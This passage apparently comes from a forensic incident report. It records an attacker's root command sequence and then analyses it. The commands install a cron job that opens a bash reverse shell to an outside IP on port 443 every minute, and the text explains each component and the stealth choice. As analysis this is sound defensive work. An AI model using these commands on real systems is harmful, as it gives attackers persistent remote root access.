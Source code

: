 **Command Sequence Executed:**
```bash
# Initial privilege verification
whoami
# Response: root

# Working directory setup
cd /tmp
pwd
# Response: /tmp

# Persistence mechanism creation
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
crontab -i cron

# Verification of persistence installation
crontab -l
# Response: * * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

### 4.6 Reverse Shell and Persistence Analysis

**Persistence Command Breakdown:**
```bash
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

**Cron Schedule Analysis:**
* `* * * * *` = Execute every minute of every hour, every day
* **Frequency:** Once per minute (60 times per hour)
* **Persistence Level:** Extremely high

**Reverse Shell Components:**
* `/bin/bash -c`: Execute bash command
* `bash -i`: Interactive bash shell
* `>&`: Redirect both stdout (standard output) and stderr (standard error)
* `/dev/tcp/14.0.0.120/443`: Create TCP connection to attacker IP on port 443
* `0>&1`: Redirect stdin (standard input) to the same connection as stdout

**Technical Mechanism:**
1. **Shell Creation:** `bash -i` creates an interactive shell
2. **Output Redirection:** `>&` sends all command output to the network connection
3. **Network Connection:** `/dev/tcp/14.0.0.120/443` establishes TCP connection to attacker
4. **Input Redirection:** `0>&1` allows attacker to send commands through the connection
5. **Stealth:** Uses port 443 (HTTPS) to blend with legitimate traffic

**Result:** Every minute, the compromised system automatically connects to the attacker's machine, providing an interactive shell with root privileges.

---

## 5. User Agent and Infrastructure Analysis

### 5.1 Attack Infrastructure Fingerprinting
